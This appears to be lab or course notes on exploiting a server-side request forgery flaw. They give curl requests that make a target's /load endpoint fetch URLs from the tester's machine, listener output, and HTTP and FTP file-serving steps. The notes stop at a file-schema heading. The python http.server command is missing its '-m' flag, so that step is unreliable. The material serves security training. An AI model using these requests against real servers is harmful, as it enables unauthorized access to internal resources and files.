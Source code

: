 ```bash
curl -i -s -L http://<TARGET IP>
```

The `-i` flag includes the HTTP header in the output.

The `-s` flag tells `curl` to be silent, which means it will not show progress meter or error messages.

The `-L` flag tells `curl` to follow any redirects that it encounters. This can be useful when the target URL returns a redirect response (such as a "301 Moved Permanently" or "302 Found" status code).

### Test the SSRF vulnerability 
#### Curl - Testing for SSRF

```bash
curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"
```

#### Netcat Listener - Confirming SSRF

```bash
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <VPN/TUN Adapter IP>:8080
User-Agent: Python-urllib/3.8
Connection: close
```

### Excercise (python urllib)

- create a index.html in a directory 
#### http server
- inside this directory launch a python server with the following command 
```bash
python3 http.server <PORT>
```
-  Retrieving a remote file through the target application - HTTP Schema
```bash
curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"
```

#### ftp server
- inside this directory launch an ftp server with the following command
```bash
sudo pip3 install twisted
sudo python3 -m twisted ftp -p 21 -r .
```
-  Retrieving a remote file through the target application - FTP Schema
```shell-session
curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"
```

### #### Retrieving a local file through the target application - File Schema
